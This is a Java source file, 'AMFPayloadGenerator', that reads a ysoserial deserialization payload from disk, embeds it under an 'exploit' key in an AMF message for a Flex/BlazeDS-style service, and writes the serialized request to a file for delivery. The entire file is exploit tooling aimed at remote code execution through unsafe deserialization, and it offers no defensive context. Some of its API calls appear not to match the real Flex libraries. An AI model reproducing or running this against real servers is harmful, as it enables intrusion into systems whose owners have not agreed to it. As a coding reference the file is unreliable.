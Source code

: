 # Note

import flex.messaging.io.amf.ASObject;
import flex.messaging.io.amf.Amf3Output;
import flex.messaging.io.amf.MessageBody;
import flex.messaging.io.amf.AmfMessage;
import flex.messaging.io.SerializationContext;

import java.io.ByteArrayOutputStream;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;

public class AMFPayloadGenerator {

    public static void main(String[] args) throws Exception {
        // Read the ysoserial payload
        FileInputStream fis = new FileInputStream("ysoserial_payload.bin");
        byte[] ysoserialPayload = new byte[fis.available()];
        fis.read(ysoserialPayload);
        fis.close();

        // Create an ASObject to hold the payload
        ASObject asObject = new ASObject();
        asObject.put("exploit", ysoserialPayload);

        // Create the AMF message body
        MessageBody messageBody = new MessageBody("ServiceName.methodName", "/1", new Object[] { asObject });

        // Create the AMF message
        AmfMessage amfMessage = new AmfMessage();
        amfMessage.addBody(messageBody);

        // Serialize the AMF message
        SerializationContext context = new SerializationContext();
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        Amf3Output amf3Output = new Amf3Output(context);
        amf3Output.setOutputStream(baos);
        amf3Output.writeObject(amfMessage);

        byte[] amfPayload = baos.toByteArray();
        baos.close();

        // Write the serialized AMF message to a file
        FileOutputStream fos = new FileOutputStream("amf_request.bin");
        fos.write(amfPayload);
        fos.close();

        System.out.println("AMF payload generated successfully.");
    }
}

